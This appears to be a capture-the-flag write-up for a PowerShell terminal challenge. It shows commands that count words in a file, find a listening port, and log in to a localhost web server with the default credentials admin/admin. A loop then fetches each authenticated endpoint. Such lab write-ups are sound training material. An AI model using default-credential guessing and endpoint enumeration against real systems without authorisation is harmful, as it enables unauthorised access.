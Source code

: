 ### Silver

![PowerShell terminal showing the welcome text](../../img/powershell.png)

**Geez that sounds ominous, I'm sure we can get past the defense mechanisms.
We should warm up our PowerShell skills. How many words are there in the file?**

`Get-Content ./welcome.txt | Measure-Object -Word`

**There is a server listening for incoming connections on this machine, that must be the weapons terminal. What port is it listening on?**

`netstat -l`  shows us the port is 1225

**You should enumerate that webserver. Communicate with the server using HTTP, what status code do you get?**

```powershell
Invoke-WebRequest http://localhost:1225
Invoke-WebRequest: Response status code does not indicate success: 401 (UNAUTHORIZED).
```

**It looks like defensive measures are in place, it is protected by basic authentication.**
**Try authenticating with a standard admin username and password.**

`Invoke-WebRequest http://localhost:1225 -Authentication Basic -Credential "admin" -AllowUnencryptedAuthentication` with admin as the password

**There are too many endpoints here.**
**Use a loop to download the contents of each page. What page has 138 words?**
**When you find it, communicate with the URL and print the contents to the terminal.**

```powershell
$password =  ConvertTo-SecureString "admin" -AsPlainText -Force  
$credential = New-Object System.Management.Automation.PSCredential("admin", $password)

Invoke-WebRequest http://localhost:1225 -Authentication Basic -Credential "admin" -AllowUnencryptedAuthentication -Outvariable x

foreach ($l in $x.links) {                          	 
    Invoke-WebRequest $l.href -outvariable c -Authentication Basic -Credential $credential -AllowUnencryptedAuthentication
    if (($c.Content | Measure-Object -Word).Words -eq 138) {
        Write-Output $l
        return
    }
}
```